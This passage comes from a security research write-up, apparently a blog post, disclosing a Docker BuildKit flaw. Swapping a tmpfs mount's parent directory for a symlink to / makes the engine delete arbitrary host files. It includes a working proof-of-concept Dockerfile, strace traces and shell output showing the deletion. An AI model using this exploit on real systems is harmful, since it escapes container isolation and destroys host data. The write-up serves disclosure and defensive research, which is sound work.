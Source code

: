 #5 [stage-0 2/2] RUN --mount=type=tmpfs,target=/tmp/movable/mount mv /tmp/movable /tmp/movable.old && ls -l /tmp
#5 0.164 total 4
#5 0.164 drwxr-xr-x    3 root     root          4096 Dec 18 17:50 movable.old
The parent directory of the mount will then need to be a symbolic link, and the name of the mount point will need to be the same as the item we wish to delete in the real root filesystem
Given the above ability to move, this is trivial to achieve:

#5 [stage-0 2/2] RUN --mount=type=tmpfs,target=/tmp/movable/mount mv /tmp/movable /tmp/movable.old && ln -s / /tmp/movable
After our process exits, the Docker engine will not perform a full re-check of the mount target path and will blindly call unlinkat against it
With the above modifications we have made to the mount destination, we will now need to observe the behavior of Docker with strace. Once again, we can re-add our "FINDME" needle for searching:

RUN --mount=type=tmpfs,target=/tmp/movable/FINDME mv /tmp/movable /tmp/movable.old && ln -s / /tmp/movable
The output from strace does not include a call to unlinkat however. Recall in our earlier strace output, prior to the calls to unlinkat there were calls to newfstatat. This may merely be a check to confirm if there is anything to clean up, and we do not have a directory FINDME in our host root directory. There are no indications of any kind of validation error at this stage, so we have hope.

A new proof of concept attempt
Given the above, we need something more specific to pass what we assume to be an existence check at this stage. Since we don’t want to break our research VM, we can create a dummy file on our host, which we can then target with our proof of concept:

FROM alpine
RUN --mount=type=tmpfs,target=/tmp/movable/DELETEME mv /tmp/movable /tmp/movable.old && ln -s / /tmp/movable
Upon testing this, we can immediately see that our payload is successful, demonstrating that initially the /DELETEME file exists but after the docker build command ran with our exploitation attempt, it has been removed:

$ ls -l /DELETEME
-rw-r--r-- 1 root root 0 Dec 18 17:59 /DELETEME
$ docker build --no-cache .
[snipped for brevity]
$ ls -l /DELETEME
ls: cannot access '/DELETEME': No such file or directory
But we don’t have much more information about why from this output. We can see in strace:

1361:18:01:44.362113 newfstatat(AT_FDCWD, "/var/lib/docker/buildkit/executor/cdqilw40qcvt7i123ox9p4qh7/rootfs/tmp/movable/DELETEME", {st_mode=S_IFREG|0644, st_size=0, ...}, AT_SYMLINK_NOFOLLOW) = 0
1363:18:01:44.362265 unlinkat(AT_FDCWD, "/var/lib/docker/buildkit/executor/cdqilw40qcvt7i123ox9p4qh7/rootfs/tmp/movable/DELETEME", 0) = 0
On its own, this does not immediately shed any more light. However, we know that due to our interference, /tmp/movable inside the rootfs is actually a symlink to /, so while the unlinkat argument is /var/lib/docker/buildkit/executor/cdqilw40qcvt7i123ox9p4qh7/rootfs/tmp/movable/DELETEME, it resolves to /DELETEME in the host root filesystem, explaining why our file disappeared.

blog-leaky-vessels-2
So there we have it: by swapping out the directory tree while we have control over the container root filesystem, the Docker engine can be caused to delete arbitrary files in the host filesystem. While not a time-critical vulnerability, this is still arguably a race condition as it requires us to perform an action between checking and creating the directory and the later cleanup.
